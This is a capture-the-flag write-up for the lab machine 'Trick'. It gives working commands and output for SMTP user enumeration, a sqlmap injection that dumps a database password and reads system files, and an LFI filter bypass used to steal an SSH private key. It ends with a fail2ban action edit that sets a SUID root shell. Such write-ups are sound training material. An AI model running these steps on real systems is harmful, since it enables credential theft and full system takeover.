

Trick#
Enumeration#
22 - OpenSSH 7.9p1 Debian 10+deb10u2
25 - Postfix
53 - BIND "9.11.5-P4-5.1+deb10u7-Debian"
80 - nginx 1.14.2 - unconfigured boostrap
nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa name = trick.htb.
>
dig axfr @10.10.11.166 trick.htb
; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb. 604800 IN SOA trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb. 604800 IN NS trick.htb.
trick.htb. 604800 IN A 127.0.0.1
trick.htb. 604800 IN AAAA ::1
preprod-payroll.trick.htb. 604800 IN CNAME trick.htb.
trick.htb. 604800 IN SOA trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
WHEN: Mon Jul 04 23:11:04 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
SMTP#
I went on a little bit of a rabbit hole with the SMTP server, but it wasn’t completely useless
I wrote this little python script, who attempts to find valid mail users, by bruteforcing VRFY
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys
rhost = "10.10.11.166"
rport = 25
path = "/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt"
server = smtplib.SMTP(host=rhost,port=rport)
if server.noop()[0] != 250:
print("[-]Connection Error")
sys.exit()
with open(path, "r") as f:
users = f.read().rstrip().split("\n")
for i in users:
vrfy = server.verify(i)
if vrfy[0] != 550:
print(vrfy)
So I could find michael ahead of time
python3 smtp_brute.py
(252, b'2.0.0 michael')
SQLi#
http://preprod-payroll.trick.htb
we saw the the payroll portal from the dig earlier, but it can be found using gobuster vhost too it has a login page, which is vulnerable to SQli
We now have access to the payroll portal, it might be worth testing the site for more SQLi vulns
After trying sqlmap on various forms, the ‘save deduction’ form seems to be vulnerable

sqlmap -r save_deductions.req --batch --threads 10 -D payroll_db -T users --dump
Database: payroll_db
Table: users
[1 entry]
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name | type | address | contact | password | username |
---+-----------+----------------+------+---------+---------+-----------------------+------------+
| 1 | 0 | Administrateur | 1 | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
The SQli can also be leveraged to dump files that www-data has access to:
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/passwd
grep sh$ /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
looking at the nginx virtual host config to know what the web folder names are
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/nginx/sites-available/default
grep 'server_name\|root' /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-available_default
server_name trick.htb;
root /var/www/html;
server_name _;
server_name preprod-marketing.trick.htb;
root /var/www/market;
server_name preprod-payroll.trick.htb;
root /var/www/payroll;
this uncovers a new vhost - preprod-marketing
http://preprod-marketing.trick.htb/index.php
because we now have the web folder paths we can dump the source code
sqlmap -r save_deductions.req --batch --threads 10 --file-read /var/www/market/index.php
<?php
$file = $_GET['page'];
if(!isset($file) || ($file=="index.php")) {
include("/var/www/market/home.html");
}
else{
include("/var/www/market/".str_replace("../","",$file));
}
?>
This points us to an LFI as the above can be evaded like this …/./…/./…/./
LFI#
So we can now just dump michael’s key, and get user access
curl 'http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa' -o michael.pem
Fail2Ban privesc#
It is imediately apparent that the privesc will be something with fail2ban
the makers of the box are hinting us to it in a few different ways
there is a fail2ban config file in michael’s home folder
-bash-5.0$ ls -la
total 100
drwxr-xr-x 15 michael michael 4096 Sep 17 16:33 .
drwxr-xr-x 3 root root 4096 May 25 13:28 ..
lrwxrwxrwx 1 root root 9 Apr 22 09:47 .bash_history -> /dev/null
-rw-r--r-- 1 michael michael 220 Apr 18 2019 .bash_logout
-rw-r--r-- 1 michael michael 3526 Apr 18 2019 .bashrc
drwx------ 9 michael michael 4096 May 11 21:09 .cache
drwx------ 10 michael michael 4096 May 11 21:08 .config
drwxr-xr-x 2 michael michael 4096 May 11 21:07 Desktop
drwxr-xr-x 2 michael michael 4096 May 11 21:07 Documents
drwxr-xr-x 2 michael michael 4096 May 11 21:07 Downloads
drwx------ 3 michael michael 4096 May 11 21:08 .gnupg
-rw------- 1 michael michael 1256 May 25 13:09 .ICEauthority
-rw-r--r-- 1 michael michael 1536 Sep 17 14:22 iptables-multiport.conf
drwx------ 3 michael michael 4096 May 11 21:07 .local
drwxr-xr-x 2 michael michael 4096 May 11 21:07 Music
drwxr-xr-x 2 michael michael 4096 May 11 21:07 Pictures
-rw-r--r-- 1 michael michael 807 Apr 18 2019 .profile
drwxr-xr-x 2 michael michael 4096 May 11 21:07 Public
drwx------ 2 michael michael 4096 May 24 17:25 .ssh
drwxr-xr-x 2 michael michael 4096 May 11 21:07 Templates
-rw-r----- 1 root michael 33 Sep 17 01:51 user.txt
drwxr-xr-x 2 michael michael 4096 May 11 21:07 Videos
-rw------- 1 michael michael 12716 Sep 17 16:33 .viminfo
he has access to restart fail2ban
-bash-5.0$ sudo -l
Matching Defaults entries for michael on trick:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User michael may run the following commands on trick:
(root) NOPASSWD: /etc/init.d/fail2ban restart
and also has write access in /etc/fail2ban/actions.d
-bash-5.0$ cd /etc/fail2ban/
-bash-5.0$ ls -la
total 76
drwxr-xr-x 6 root root 4096 Sep 17 16:36 .
drwxr-xr-x 126 root root 12288 Sep 17 01:51 ..
drwxrwx--- 2 root security 4096 Sep 17 16:36 action.d
-rw-r--r-- 1 root root 2334 Sep 17 16:36 fail2ban.conf
drwxr-xr-x 2 root root 4096 Sep 17 16:36 fail2ban.d
drwxr-xr-x 3 root root 4096 Sep 17 16:36 filter.d
-rw-r--r-- 1 root root 22908 Sep 17 16:36 jail.conf
drwxr-xr-x 2 root root 4096 Sep 17 16:36 jail.d
-rw-r--r-- 1 root root 645 Sep 17 16:36 paths-arch.conf
-rw-r--r-- 1 root root 2827 Sep 17 16:36 paths-common.conf
-rw-r--r-- 1 root root 573 Sep 17 16:36 paths-debian.conf
-rw-r--r-- 1 root root 738 Sep 17 16:36 paths-opensuse.conf
because he’s part of the “security” group
groups
michael security
a quick google search for “fail2ban privesc” an we know we can execute arbitrary command with this
let’s try to make a bash suid
I’m now realising that that fail2ban file in the home folder is probably not a hint, but a leftover from somebody else, lets copy over the original.
cp /etc/fail2ban/action.d/iptables-multiport.conf iptables-multiport.conf
adding the chmod suid into the actionban command
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
chmod +s /usr/bin/bash
and placing the file back in action.d
rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
then restarting the daemon
sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
Now of course we need to trigger the ban, lets do a bruteforce attack with hydra
hydra ssh://trick.htb -l root -P /usr/share/wordlists/rockyou.txt
and we’re in
ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18 2019 /usr/bin/bash
bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
let’s not forget to put things back how they were, removing the config file from home and removing the suid flag from bash